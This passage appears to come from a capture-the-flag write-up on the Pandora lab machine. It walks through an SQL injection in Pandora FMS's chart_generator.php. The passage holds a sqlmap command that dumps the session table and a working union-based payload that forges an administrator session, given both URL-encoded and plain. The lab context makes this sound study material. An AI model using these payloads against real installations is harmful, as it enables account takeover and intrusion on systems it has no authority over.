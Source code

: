  "Pandora FMS 742: Critical Code Vulnerabilities Explained" Says that: "The PHP function session_decode() is then used to load session data from $info['data'] and to populate it into the current $_SESSION.
This way,`any user can be impersonated including an administrator with full access privileges by loading its user ID`. As a result, the SQL Injection can be used to authenticate as any user."



So we will check the "tsessions_php" table.



```sql
sqlmap --url="http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=''" -D pandora -T tsessions_php --columns --dump
```
**Output:**

| id_session                              | data                                                         | last_active  |
| --------------------------------------- | ------------------------------------------------------------ | ------------ |
| ... ... ... ... ... ... ... ... ... ... | ... ... ... ... ... ... ... ... ... ...                      | .... ... ... |
| g4e01qdgk36mfdh90hvcc54umq              | "id_usuario l s:4:"matt";alert_msg l a:0:{}new_chat l b:0;"" | 1638796349   |
| ... ... ... ... ... ... ... ... ... ... | ... ... ... ... ... ... ... ... ... ...                      | .... ... ... |

We found the id_session of the "matt" user, and now we  can log into the login page as **matt**.



![Matt](C:\Users\Usuario\Desktop\HTB Writeups\Pandora Writeup\content\Matt.jpg)



**It worked!** Now we can set a password for the matt user, unfortunately we cant do so much stuff on this profile.



checking again the version of pandora there is a Pandora exploit on github
https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated
"Unauthenticated Sql-Injection that leads to dump database but this one impersonated Admin and drops a interactive shell"
A part of the code is: 

```sql
#Exploit Injection
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=' union SELECT 1,2,'id_usuario|s:5:"admin";' as data -- SgGO
```
So we adapted it to our case in the following way
```sql
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20endof%20%20--%20endof
```
It is necessary to put some characters in hexadecimal to avoid syntax problems.
- %27 = '
- %22 = "
- %20 = (empty space)
```sql
http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=' union SELECT 1,2,'id_usuario|s:5:"admin";' endof  -- endof
```
In the code:
We set **"s:5"** because in the database the "id_usuario" for matt was: 4 and for daniel was: 6, and all we have to do is guess what "id_usuario" value was the correct for the admin`s user
